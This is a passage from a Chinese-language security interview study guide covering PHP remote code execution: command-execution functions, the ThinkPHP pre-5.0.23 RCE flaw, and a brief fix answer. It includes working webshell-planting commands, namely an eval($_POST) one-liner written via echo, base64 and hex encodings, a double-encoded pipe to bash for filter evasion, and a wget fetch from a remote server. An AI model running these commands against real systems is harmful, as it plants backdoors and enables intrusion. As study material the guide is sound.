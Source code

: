 exec()

shell_exec()

popen()

proc_open()

pcntl_exec()

### 2.ThinkPHP rce漏洞了解吗？（重点）

答：自己之前做过thinkPHP的rce漏洞，5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞

### 3.遇到rce漏洞如何修复？

答：需要对相关敏感函数禁用，如可以进行命令执行的危险函数，对文件相关操作函数进行禁用，如fputs避免其写入shell拿到系统权限。同时对相关的变量进行过滤，使用WAF产品进行防护等

### 4.用Rce写入shell的方式知道吗？（重点）

答：（1）echo直接写入，如：echo '<?php eval($_POST[1]); ?>' > 1.php（2）base64写入，对写入poc进行编码，避免对方检测特殊字符函数等拦截导致写入失败，如：echo "PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==" | base64 -d >2.php

（3）绕过重定向符，如

```bash
echo "ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE95QS9QZz09IiB8IGJhc2U2NCAtZCA+My5waHA=" | base64 -d | bash
```

（4）可出网且有wget的情况下，可以通过远端下载webshell，自己远端服务器放置webshell,开启http服务。在目标机器执行

```bash
wget http://xx.xx.xxx.xx:8000/xxx.php
```

（5）hex写入，在 https://www.107000.com/T-Hex/，将webshell编码成hex，然后命令注入执行，如：

```bash
echo 3C3F706870206576616C28245F504F53545B315D293B203F3E|xxd -r -ps > 5.php
```



### 5.Windows系统管道符中，&执行顺序是什么？

答：`“&” commandA & commandB` 先运行命令A，然后运行命令B

### 6.命令执行的函数都有哪些？

```bash
system(), exec(), shellexec(), passthru() ,pcntlexec(), popen(),proc_open()
eval,pregreplace+/e,assert,calluserfunc,calluserfuncarray,create_function等等
```

 



## 十.APP渗透面试
